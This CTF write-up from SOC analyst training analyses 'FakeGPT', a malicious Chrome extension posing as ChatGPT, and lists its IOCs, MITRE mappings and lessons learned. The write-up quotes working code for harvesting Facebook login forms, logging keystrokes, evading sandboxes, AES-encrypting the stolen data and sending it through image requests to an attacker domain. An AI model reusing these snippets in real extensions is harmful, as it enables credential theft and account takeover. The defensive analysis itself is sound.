# FakeGPT Lab — CTF Writeup

---

## Scenario Overview

Several employees reported unusual browser behavior after installing a Chrome extension named **"ChatGPT"**. Accounts were being compromised and sensitive data was leaking. The extension was extracted and statically analyzed. Investigation revealed a fully functional **credential-stealing and keylogging browser extension** that exfiltrates data via AES encryption through covert `` tag requests to an attacker-controlled domain.

---

## File Structure Analysis

```bash
ls
# app.js  crypto.js  img.GIF  loader.js  manifest.json  ui.html
```

| File | Role |
|---|---|
| `manifest.json` | Extension configuration and permissions declaration |
| `loader.js` | Background script — anti-analysis checks + dynamic script loader |
| `app.js` | Core malicious logic — credential theft, keylogging, exfiltration |
| `crypto.js` | AES encryption utility (CryptoJS wrapper) |
| `ui.html` | Fake UI popup to appear legitimate |
| `img.GIF` | Decoy image file |

---

## manifest.json Analysis

```json
{
  "name": "ChatGPT",
  "permissions": [
    "tabs", "http://*/*", "https://*/*",
    "storage", "webRequest", "webRequestBlocking", "cookies"
  ],
  "background": { "scripts": ["system/loader.js"], "persistent": true },
  "content_scripts": [{ "matches": ["<all_urls>"], "js": ["core/app.js"] }]
}
```

**Dangerous permissions declared:**

| Permission | Abuse Potential |
|---|---|
| `http://*/*` + `https://*/*` | Intercept all web traffic |
| `webRequest` + `webRequestBlocking` | Monitor and block network requests |
| `cookies` | Read/write session cookies and auth tokens |
| `storage` | Store stolen data locally |
| `<all_urls>` content script | Inject malicious code into every page |

---

## Question 1 — Which encoding method is used to obscure target URLs?

### Investigation

Inside `app.js`, the target domain is stored as an obfuscated string using a Base64-encoded value:

```javascript
// app.js — line 5
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
```


**Decoding in CyberChef (From Base64):**

```
d3d3LmZhY2Vib29rLmNvbQ== → www.facebook.com
```


The `_0xabc1` function is a pass-through identity function that returns its argument unchanged — the actual obfuscation is the Base64 encoding of the target domain string.

**MITRE ATT&CK:** T1027 — Obfuscated Files or Information

### Answer

```
Base64
```

---

## Question 2 — Which website does the extension monitor for data theft?

### Investigation

Decoding the Base64 string from Question 1 reveals the target domain. The extension checks `window.location.hostname` against this list — only injecting credential theft behavior when the user visits this specific site:

```javascript
const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
// Decoded: ['www.facebook.com']

if (targets.indexOf(window.location.hostname) !== -1) {
    // Credential theft code activates here
}
```

**MITRE ATT&CK:** T1555.003 — Credentials from Web Browsers

### Answer

```
www.facebook.com
```


---

## Question 3 — Which HTML element is used to send stolen data?

### Investigation

Inside `app.js`, the `sendToServer()` function uses a covert exfiltration technique — creating an **`` element** with the stolen data appended as a URL query parameter:

```javascript
function sendToServer(encryptedData) {
    var img = new Image();
    img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
    document.body.appendChild(img);
}
```

**Why ``?**

Using an Image object to make HTTP GET requests is a classic **covert exfiltration technique** that:
- Bypasses CSP (Content Security Policy) restrictions on `fetch`/`XHR` in many configurations
- Generates no JavaScript errors if the request fails
- Appears as a regular image load in browser developer tools
- Doesn't require CORS preflight requests

**MITRE ATT&CK:** T1041 — Exfiltration Over C2 Channel

### Answer

```

```


---

## Question 4 — What is the first specific condition that triggers the extension to deactivate itself?

### Investigation

Inside `loader.js`, an anti-analysis check detects virtual/sandbox environments:

```javascript
// loader.js — Anti-analysis detection
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
    alert("Virtual environment detected. Extension will disable itself.");
    chrome.runtime.onMessage.addListener(() => { return false; });
}
```

Two conditions are checked with `||` (OR):

1. `navigator.plugins.length === 0` — No browser plugins installed (typical of headless/sandbox environments)
2. `/HeadlessChrome/.test(navigator.userAgent)` — Headless Chrome detected in User-Agent string

The **first** condition in the code (left side of `||`) is the plugin count check.

**MITRE ATT&CK:** T1497.001 — Virtualization/Sandbox Evasion: System Checks

### Answer

```
navigator.plugins.length === 0
```


---

## Question 5 — Which event does the extension capture to track form submissions?

### Investigation

Inside `app.js`, within the Facebook-specific activation block, a `submit` event listener intercepts form data when the user submits a login form:

```javascript
document.addEventListener('submit', function(event) {
    let form = event.target;
    let formData = new FormData(form);
    let username = formData.get('username') || formData.get('email');
    let password = formData.get('password');
    if (username && password) {
        exfiltrateCredentials(username, password);
    }
});
```

The listener captures the form submission event, extracts `username`/`email` and `password` fields from `FormData`, and immediately calls `exfiltrateCredentials()`.

**MITRE ATT&CK:** T1056.004 — Input Capture: Credential API Hooking

### Answer

```
submit
```


---

## Question 6 — Which API or method is used to capture keystrokes?

### Investigation

A second event listener in `app.js` captures every individual keystroke in real-time:

```javascript
document.addEventListener('keydown', function(event) {
    var key = event.key;
    exfiltrateData('keystroke', key);
});
```

Every key pressed by the user triggers `exfiltrateData()`, which encrypts and sends the keystroke to the C2 server — building a complete keylog of everything typed on the monitored page.

**MITRE ATT&CK:** T1056.001 — Input Capture: Keylogging

### Answer

```
keydown
```


---

## Question 7 — What is the domain where the extension transmits exfiltrated data?

### Investigation

The `sendToServer()` function in `app.js` hardcodes the exfiltration endpoint:

```javascript
function sendToServer(encryptedData) {
    var img = new Image();
    img.src = 'https://Mo.Elshaheedy.com/collect?data=' + encodeURIComponent(encryptedData);
    document.body.appendChild(img);
}
```

All stolen data (credentials and keystrokes) is sent to `Mo.Elshaheedy.com` via HTTPS GET requests disguised as image loads. The path `/collect` receives the encrypted payload as a URL query parameter.

### Answer

```
Mo.Elshaheedy.com
```


---

## Question 8 — Which function exfiltrates user credentials?

### Investigation

When the `submit` event is captured and both `username` and `password` are extracted from the form, the dedicated credential exfiltration function is called:

```javascript
function exfiltrateCredentials(username, password) {
    const payload = {
        user: username,
        pass: password,
        site: window.location.hostname
    };
    const encryptedPayload = encryptPayload(JSON.stringify(payload));
    sendToServer(encryptedPayload);
}
```

The function packages username, password, and the source site URL into a JSON payload, encrypts it with AES, and sends it to the C2 server.

### Answer

```
exfiltrateCredentials(username, password);
```


---

## Question 9 — Which encryption algorithm is applied before sending data?

### Investigation

Both `crypto.js` and `app.js` use **AES encryption** from the CryptoJS library:

**crypto.js:**

```javascript
window.CryptoUtils = {
    encrypt: function(data) {
        const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
        const iv = CryptoJS.lib.WordArray.random(16);
        const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
        return encrypted.toString(CryptoJS.enc.Base64);
    }
};
```

**app.js (encryptPayload function):**

```javascript
function encryptPayload(data) {
    const key = CryptoJS.enc.Utf8.parse('SuperSecretKey123');
    const iv = CryptoJS.lib.WordArray.random(16);
    const encrypted = CryptoJS.AES.encrypt(data, key, { iv: iv });
    return iv.concat(encrypted.ciphertext).toString(CryptoJS.enc.Base64);
}
```

**Encryption details:**

| Parameter | Value |
|---|---|
| Algorithm | AES |
| Key | `SuperSecretKey123` (hardcoded — 17 bytes) |
| IV | Random 16 bytes per encryption |
| Output format | Base64 encoded |

**Note:** The hardcoded key `SuperSecretKey123` makes this encryption trivially reversible by any analyst who extracts it from the source code.

**MITRE ATT&CK:** T1573.001 — Encrypted Channel: Symmetric Cryptography

### Answer

```
AES
```


---

## Question 10 — What does the extension access for session and authentication data?

### Investigation

The `manifest.json` explicitly declares the `cookies` permission:

```json
"permissions": [
    "tabs", "http://*/*", "https://*/*",
    "storage", "webRequest", "webRequestBlocking", "cookies"
]
```

The `cookies` permission grants the extension access to:
- All browser cookies for any domain
- Session tokens and authentication cookies (e.g., Facebook session ID)
- HttpOnly and Secure cookies that JavaScript normally cannot access

This allows the attacker to steal **active authenticated sessions** — bypassing the need for a password entirely, as session cookies can be used directly for account takeover.

**MITRE ATT&CK:** T1539 — Steal Web Session Cookie

### Answer

```
cookies
```


---

## Full Code Flow Analysis

```
[User installs "ChatGPT" extension]
         │
         ▼
[loader.js — background script]
    ├─ Anti-analysis check:
    │   ├─ navigator.plugins.length === 0  → disable
    │   └─ /HeadlessChrome/ in UA          → disable
    └─ Dynamically loads core/app.js
         │
         ▼
[app.js — content script (injected into ALL pages)]
    ├─ Decodes Base64 target list:
    │   └─ 'd3d3LmZhY2Vib29rLmNvbQ==' → 'www.facebook.com'
    │
    └─ If hostname == www.facebook.com:
        ├─ addEventListener('submit') → steal username + password
        └─ addEventListener('keydown') → log every keystroke
         │
         ▼
[exfiltrateCredentials(username, password)]
    ├─ Build JSON payload: {user, pass, site}
    ├─ Encrypt: AES(SuperSecretKey123) + random IV
    └─ sendToServer(encryptedData)
         │
         ▼
[sendToServer()]
    └─ new Image().src = 'https://Mo.Elshaheedy.com/collect?data=<encrypted>'
       └─ Covert HTTP GET via  tag
```

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Domain | `Mo.Elshaheedy.com` | C2 exfiltration server |
| URL | `https://Mo.Elshaheedy.com/collect` | Data exfiltration endpoint |
| Extension Name | `ChatGPT` | Fake extension name (social engineering) |
| Target Site | `www.facebook.com` | Credential theft target |
| Hardcoded Key | `SuperSecretKey123` | AES encryption key |
| File | `app.js` | Core malicious payload |
| File | `loader.js` | Anti-analysis + dynamic loader |
| File | `crypto.js` | AES encryption module |

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1195.001 | Supply Chain Compromise: Compromise Browser Extension |
| Defense Evasion | T1027 | Obfuscated Files or Information (Base64 encoding) |
| Defense Evasion | T1497.001 | Virtualization/Sandbox Evasion: System Checks |
| Credential Access | T1555.003 | Credentials from Web Browsers |
| Credential Access | T1539 | Steal Web Session Cookie |
| Collection | T1056.001 | Input Capture: Keylogging |
| Collection | T1056.004 | Input Capture: Credential API Hooking (form submit) |
| Exfiltration | T1041 | Exfiltration Over C2 Channel |
| Command & Control | T1573.001 | Encrypted Channel: Symmetric Cryptography (AES) |

---

## Lessons Learned

1. **Review extension permissions before installing** — Permissions like `cookies`, `webRequestBlocking`, and `<all_urls>` content scripts are extreme red flags in any non-enterprise extension. No legitimate ChatGPT extension needs cookie access.
2. **Verify extension authenticity** — Always install extensions from the official Chrome Web Store and verify the publisher. Impersonation extensions targeting popular tools (ChatGPT, Grammarly, etc.) are common.
3. **Alert on `` tag exfiltration** — Network monitoring should flag HTTPS GET requests to unknown domains where the Referer matches a sensitive site (Facebook, banking portals).
4. **Detect hardcoded keys via static analysis** — The AES key `SuperSecretKey123` was trivially extractable from source code — malware analysts can easily decrypt all stolen data.
5. **Monitor browser extension installations at scale** — Deploy endpoint controls that audit installed Chrome extensions and alert when new extensions with dangerous permission sets are added.
6. **Block unknown domains at DNS level** — `Mo.Elshaheedy.com` is not a legitimate service. DNS filtering would have blocked the exfiltration at the network layer.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: FakeGPT Lab*